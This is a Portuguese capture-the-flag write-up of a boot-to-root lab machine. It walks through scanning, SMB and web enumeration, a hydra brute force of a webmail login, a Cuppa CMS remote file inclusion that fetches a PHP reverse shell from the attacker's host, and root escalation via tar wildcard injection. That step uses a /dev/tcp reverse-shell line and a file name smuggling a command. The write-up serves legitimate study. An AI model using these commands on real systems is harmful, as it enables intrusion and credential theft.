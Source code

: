# SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172518.png)

Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172131.png)
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172249.png)
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132254.png)
![[Pasted image 20250211172249.png]]
![[Pasted image 20250211132254.png]]
Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132115.png)
![[Pasted image 20250211132115.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125256.png)
![[Pasted image 20250211125256.png]]
# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125533.png)
![[Pasted image 20250211125533.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125612.png)
![[Pasted image 20250211125612.png]]

Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124948.png)
![[Pasted image 20250211124948.png]]
login: milesdyson   password: cyborg007haloterminator
Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125214.png)
![[Pasted image 20250211125214.png]]

Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125717.png)
![[Pasted image 20250211125717.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125803.png)
![[Pasted image 20250211125803.png]]
Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%202025021125822.png)
![[Pasted image 20250211125822.png]]
Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125057.png)
![[Pasted image 20250211125057.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125924.png)
![[Pasted image 20250211125924.png]]
Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125443.png)
![[Pasted image 20250211125443.png]]
Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130055.png)
![[Pasted image 20250211130055.png]]
Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125334.png)
![[Pasted image 20250211125334.png]]
E assim, conseguimos acesso ao alvo pelo usuário www-data.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124851.png)
![[Pasted image 20250211124851.png]]
Capturamos a flag do user
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131725.png)
![[Pasted image 20250211131725.png]]
**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132021.png)
![[Pasted image 20250211132021.png]]
E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124302.png)
![[Pasted image 20250211124302.png]]
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124424.png)
![[Pasted image 20250211124424.png]]
Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124600.png)
![[Pasted image 20250211124600.png]]
Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130324.png)
![[Pasted image 20250211130324.png]]

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130505.png)
![[Pasted image 20250211130505.png]]
Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131601.png)
![[Pasted image 20250211131601.png]]
Já com acesso ao root, capturamos a flag de root
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131643.png)
![[Pasted image 20250211131643.png]]

**root:** 3f0372db24753accc7179a282cd6a949

